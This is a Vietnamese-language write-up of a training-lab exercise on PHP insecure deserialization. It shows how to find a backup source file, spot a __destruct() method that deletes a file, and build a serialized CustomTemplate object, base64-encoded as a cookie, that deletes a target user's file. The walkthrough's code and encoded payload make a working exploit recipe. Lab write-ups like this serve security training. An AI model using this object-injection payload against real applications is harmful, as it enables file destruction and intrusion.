






# Writeup LAB Arbitrary object injection in PHP

## Goal
To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory
## Khai thác
Đăng nhập với tư cách người dùng `wiener`

Truy cập soure code chúng ta thấy được hightlight `<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->` cùng truy cập `/libs/CustomTemplate.php` để xem mã nguồn 

Ở đây nó ra không có nội dung bạn chỉ cần thêm `~` sau file để xem file backup của mã 

Thực hiện phân tích mã nguồn như sau: <br>
Ở đoạn mã này nó khởi tạo constructor 2 thuộc tính `$template_file_path` và `$lock_file_path` và chúng ta đặc biệt chú ý function này:
```php
    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
```
Theo tài liệu PHP hàm `__destruct()` nguy hiểm khi một đối tượng được gọi nó sẽ khiến tệp có thể thực thi và ở đây nếu thuộc tính `lock_file_path` tồn tại nó sẽ gọi `unlink` thực hiện xóa file đó. Bằng cách này nếu chúng ta truyền vào đối tượng độc hại như `/home/carlos/morale.txt` cho thuộ tính `lock_file_path` nó sẽ xóa tệp này <br>
Cookie URL giải mã:
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJzdXptaDl6bTB1Mzd1d3V4bG1reG90YjQ4a29sczd1OCI7fQ==
```
Giải mã dữ liệu:
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"suzmh9zm0u37uwuxlmkxotb48kols7u8";}
```
Xây dựng tải trọng:
```php
<?php
class CustomTemplate { 
    function __construct()
    {
        $this->lock_file_path = "/home/carlos/morale.txt";
    }
}
$customeTemplate = new CustomTemplate();
$serialized = serialize($customeTemplate);
echo "Serialized: " . $serialized . "\n";
var_dump($serialized);

echo "[+] Base64 Encoded: " . base64_encode($serialized) . "\n";
?>
```
Base64 enccode:
```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
```
Thực hiện dán lại cookie và gửi yêu cầu `POST`

Xóa têp thành công
